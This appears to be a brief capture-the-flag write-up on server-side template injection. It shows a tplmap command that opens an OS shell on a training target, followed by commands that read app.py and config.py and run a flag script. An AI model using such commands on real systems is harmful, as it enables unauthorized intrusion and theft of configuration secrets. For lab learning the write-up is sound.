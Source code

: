 
  

#  STTI

  

####  For understanding SSTI (Server Side Template Injection), I googled it and find this page. 
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
#### Then I checked on github if I can find a tool that find and use vulnerabilities.
https://github.com/epinna/tplmap
For the tree exercises, I use a single command that create a remote web shell.

```console
python3 tplmap.py -u 'https://ssti1.secu-web.blackfoot.dev/?username=47' --os-shell
```
When the shell was set and ready to execute command, I started with ```ls```.

  

##  STI 1
```cat app.py```.
  

##  STI 2
```cat config.py```.
  

##  STI 3
```./getFlag.py```.